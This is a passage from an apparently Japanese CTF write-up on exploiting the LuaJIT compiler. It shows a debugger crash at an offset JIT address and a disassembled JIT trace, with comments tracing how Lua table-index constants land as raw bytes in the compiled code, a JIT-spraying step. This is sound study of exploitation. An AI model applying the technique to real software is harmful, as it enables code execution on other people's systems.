 
![test2.lua](./img/test2-lua.png)

バイト数制約が気になってきたので、なるべく減らせるようにフォーマットしてます。
デバッガーでアタッチして実行してみると、

```
INSPECTION: This ship's JIT cargo was found to be 0x3ffb20fe8e
... yarr let ye apply a secret offset, cargo is now 0x3ffb20fe92 ...
```

と表示されてクラッシュするので、JITトレースを覗いてみましょう。

```
gef➤  c
Continuing.
Program received signal SIGILL, Illegal instruction.
0x0000003ffb20fe92 in ?? ()
...
gef➤  x/200i 0x3ffb20fe8e
   0x3ffb20fe8e:        mov    DWORD PTR [r14-0xec8],0x1
   0x3ffb20fe99:        lea    r15,[r14+0x2c80]
   0x3ffb20fea0:        movsd  xmm7,QWORD PTR [r14+0x3f18]
   0x3ffb20fea9:        movsd  xmm6,QWORD PTR [r14+0x3f08]
   0x3ffb20feb2:        movsd  xmm5,QWORD PTR [r14+0x3ee8]
   0x3ffb20febb:        movsd  xmm4,QWORD PTR [r14+0x3f58]
   0x3ffb20fec4:        movsd  xmm3,QWORD PTR [r14+0x3f88]
   0x3ffb20fecd:        rorx   rbx,QWORD PTR [rdx],0x2f
   0x3ffb20fed3:        cmp    bx,0xfff4
   0x3ffb20fed7:        jne    0x3ffb20004c
   0x3ffb20fedd:        shr    rbx,0x11
   0x3ffb20fee1:        cmp    DWORD PTR [rbx+0x34],0x1
   0x3ffb20fee5:        jne    0x3ffb20004c
   0x3ffb20feeb:        mov    rbp,QWORD PTR [rbx+0x28]
   0x3ffb20feef:        movabs rdi,0x437123456789abcd       ; <- `a[0x1123456789abcd0]=1`の添字部分より
   0x3ffb20fef9:        cmp    rdi,QWORD PTR [rbp+0x8]
   0x3ffb20fefd:        jne    0x3ffb20004c
   0x3ffb20ff03:        cmp    QWORD PTR [rbx+0x20],0x0
   0x3ffb20ff08:        jne    0x3ffb20004c
   0x3ffb20ff0e:        movsd  QWORD PTR [rbp+0x0],xmm3
   0x3ffb20ff13:        movabs rdi,0x437dcba987654321       ; <- `a[0x1dcba9876543210]=2`の添字部分より
   0x3ffb20ff1d:        cmp    rdi,QWORD PTR [rbp+0x20]
   0x3ffb20ff21:        jne    0x3ffb200050
...
```
